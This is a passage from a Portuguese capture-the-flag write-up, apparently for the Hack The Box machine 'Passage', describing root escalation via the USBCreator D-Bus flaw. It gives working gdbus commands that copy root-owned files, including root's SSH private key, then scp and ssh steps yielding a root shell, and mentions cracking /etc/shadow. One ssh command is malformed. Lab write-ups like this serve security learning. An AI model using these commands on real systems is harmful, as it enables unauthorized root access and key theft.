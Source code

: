 
O exploit do USBCreator nos permite copiar um arquivo usando os privilégios de root. Se quiser apenas copiar o arquivo `root.txt` para o diretório `/tmp`, a linha de comando abaixo atende a esta necessidade. 

```bash
nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /tmp/somefilename true
```

Porém, se quiser um shell interativo com privilégios de root, existem algumas possibilidades que devemos tentar:

- Obter uma cópia do `/etc/shadow`, fazer o unshadow e crackear a senha utilizando John ou Hashcat, o que não funcionou com o dicionário que utilizei;
- Verificar a existência de um arquivo `id_rsa` no perfil do root, assim como sua configuração como uma chave autorizada no arquivo **authorized_keys**, que foi onde obtivemos sucesso e pudemos ver a flag desta conta. 

```bash
nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/somefilename true

## Attacker machine
$ scp -i id_rsa nadav@10.10.10.206:/tmp/somefilename .
$ chmod +600 id_rsa
$ ssh -i root@10.10.10.206
root@passage:~# id
uid=0(root) gid=0(root) groups=0(root)
root@passage:~# cat /root/root.txt
<redacted>
```

Espero que tenham gostado. 

Até o próximo post! :smiley:
